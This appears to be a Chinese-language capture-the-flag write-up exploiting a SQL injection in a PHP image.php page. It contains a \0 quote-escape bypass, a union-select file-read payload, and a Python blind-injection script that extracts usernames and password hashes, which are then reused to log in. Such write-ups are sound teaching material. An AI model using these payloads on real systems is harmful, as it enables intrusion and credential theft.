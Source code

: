 登录的地方没发现 sql 注入, 也没有弱口令, 问题只能出在 image.php 上

两次 str_replace 过滤单双引号等字符, 其中过滤的 `\0` 感觉不太对劲

本地试了下, 如果输入 `\0`, 被 addslashes 转义之后就是 `\\0`, 之后被 replace 成 `\`, 这样就可以使得后面跟着的单引号逃逸出来

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210182005288.png)

程序后面的 readfile 是依据 `$row["path"]` 来读取文件的, 于是尝试用 union 构造数据

```
id=123\0&path=+union+select+1,0x757365722e706870+#
```

读取 user.php

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210182007558.png)

读取 config.php 和 ../../../../flag 都不行, 看了下网站上的 image.php 发现被过滤了

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210182008083.png)

那么只有 sql 注入一条路了

简单盲注无任何过滤, 脚本如下

```python
import requests
import time

url = 'http://03e9b380-2c82-4b43-b760-4157d9a13c20.node4.buuoj.cn:81/image.php'

dicts = r'{}_,AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'

flag = ''

for i in range(1,99999):
    for s in dicts:
        time.sleep(0.2)
        params = {
        'id': '1\\0',
        'path': 'and if(ascii(substr((select group_concat(username,0x2c,password) from users),{},1))={},1,0) #'.format(i,ord(s))
        }
        print(s)
        res = requests.get(url, params=params)
        if len(res.text) >100:
            flag += s
            print('FOUND!!!',flag)
            break
```

md5 解不出来, 回过头看 index.php 的时候发现对传入 password 压根就没有 md5 加密...

于是拿着 md5 直接登录

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210182009394.png)
